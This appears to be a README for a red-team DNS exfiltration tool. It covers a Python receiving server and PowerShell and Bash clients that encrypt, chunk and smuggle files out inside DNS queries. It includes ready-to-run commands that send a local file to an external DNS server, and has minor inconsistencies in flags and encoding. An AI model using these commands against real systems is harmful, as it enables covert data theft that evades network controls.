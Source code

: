 # DNS Exfiltration Tool

## DNS Server in Python (dnsexfil_server.py)

### Overview

The Python server script (`dnsexfil_server.py`) listens for DNS queries and reconstructs files sent by the exfiltration clients.

### Features

- **XOR Decryption:** Decrypts received data chunks using XOR decryption with the specified password.
- **File Compression:** Reconstructs and extracts received files locally.
- **Simultaneous Transfer:** Supports simultaneous connections and transfers.
- **Error Handling:** Ignores queries received twice, and ignores queries with unknown or simple format.
- **TCP/UDP Support:** Can handle both TCP and UDP DNS queries.

### Requirements

- Python 3.x
- `dnslib` library (`pip install dnslib`)

### Installation

1. Clone or download the repository to your local machine:

```bash
git clone https://github.com/lefayjey/DNSExfiltration
```

2. Install the required Python libraries:
```bash
pip install dnslib
```

### Usage

**Syntax**

```bash
python3 dnsexfil_server.py <dns_server_ip> <password> [--usetcp]
```

**Parameters**

- `<dns_server_ip>`: IP address of the DNS server where the server should listen for queries.
- `<password>`: Password used by clients for XOR encryption.
- `--usetcp` (optional): Use TCP instead of UDP for handling DNS queries.

**Example**

```bash
python3 dnsexfil_server.py 192.168.1.100 securepass --usetcp
```

**Notes**

Ensure that the server is configured to listen on a DNS server IP address that can receive DNS queries from clients.
The server decrypts and reconstructs files based on received DNS queries.

## DNS Client in PowerShell (dnsexfil_client.ps1)

### Overview

The PowerShell script (`dnsexfil_client.ps1`) exfiltrates files over DNS using XOR encryption and base64 encoding.

### Features
- **XOR Encryption**: Encrypts file data using XOR encryption with a user-provided password.
- **Base64 Encoding**: Converts encrypted data to base64 before sending as DNS queries.
- **Chunking**: Splits large files into smaller chunks to fit within DNS query size limits.
- **Compression**: Uses gzip compression to reduce the size of data before encryption.
- **TCP/UDP Support**: Option to use TCP instead of UDP for DNS queries.

### Requirements

- PowerShell (version 3.0 or higher recommended)
- Windows operating system (script may require adjustments for other platforms)
- Access to a DNS server for sending queries

### Installation

1. Clone or download the repository to your local machine:

```powershell
git clone https://github.com/lefayjey/DNSExfiltration
```

2. No additional installation steps are required. Ensure PowerShell script execution policy allows running the script (`Set-ExecutionPolicy RemoteSigned` or `Set-ExecutionPolicy Unrestricted`).

### Usage

**Syntax**

```powershell
.\dnsexfil_client.ps1 -FilePath <file_path> -Domain <domain> -DnsServerIp <dns_server_ip> -Password <password> [-UseTcp]
```
**Parameters**

- `-FilePath`: Path to the file you want to exfiltrate.
- `-Password`: Password to be used in XOR encryption.
- `-Domain`: Domain to use in DNS queries.
- `-DnsServerIp`: IP address of the DNS server.
- `-UseTcp` (optional): Use TCP instead of UDP for DNS queries.

**Example**

```powershell
.\dnsexfil_client.ps1 -FilePath "C:\path\to\your\file" -Domain "example.com" -DnsServerIp "8.8.8.8" -Password "securepass" -UseTcp
```

**Notes**

Ensure that the DNS server configured (`-DnsServerIp`) can receive DNS queries.
Large files will be encrypted and split into smaller chunks to fit within DNS query size limits (typically 255 bytes).

## DNS Client in Bash (dnsexfil_client.sh)

### Overview

The Bash client script (`dnsexfil_client.sh`) exfiltrates files over DNS using XOR encryption and base64 encoding.

### Features

- **XOR Encryption**: Encrypts file data using XOR encryption with a user-provided password.
- **Base64 Encoding**: Converts encrypted data to base64 before sending as DNS queries.
- **Chunking**: Splits large files into smaller chunks to fit within DNS query size limits.
- **Compression**: Uses gzip compression to reduce the size of data before encryption.
- **TCP/UDP Support**: Option to use TCP instead of UDP for DNS queries.

### Requirements
- Unix-based operating system (Linux, macOS, etc.)
- nslookup or equivalent DNS tool installed

### Installation

1. Clone or download the repository to your local machine:

```bash
git clone https://github.com/lefayjey/DNSExfiltration
```

2. No additional installation steps are required.

### Usage

**Syntax**

```bash
./dnsexfil_client.sh -f <file_path> -p <password> -d <domain> -s <dns_server_ip> [-t]
```

**Parameters**

- `-f`: Path to the file you want to exfiltrate.
- `-p`: Password to be used in XOR encryption.
- `-d`: Domain to use in DNS queries.
- `-s`: IP address of the DNS server.
- `-t` (optional): Use TCP instead of UDP for DNS queries.

**Example**

```bash
./dnsexfil_client.sh -f "/path/to/your/file" -p "securepass" -d "example.com" -s "8.8.8.8" --use-tcp
```

**Notes**

Ensure that the DNS server configured (`-s`) can receive DNS queries.
Large files will be encrypted and split into smaller chunks to fit within DNS query size limits (typically 255 bytes).
Encrypted data is sent as hexadecimal strings in DNS queries.

# License
This project is licensed under the MIT License - see the LICENSE file for details.

# Acknowledgments
Inspired by the following DNS exfiltration tools:
- https://github.com/Arno0x/DNSExfiltrator
- https://github.com/m57/dnsteal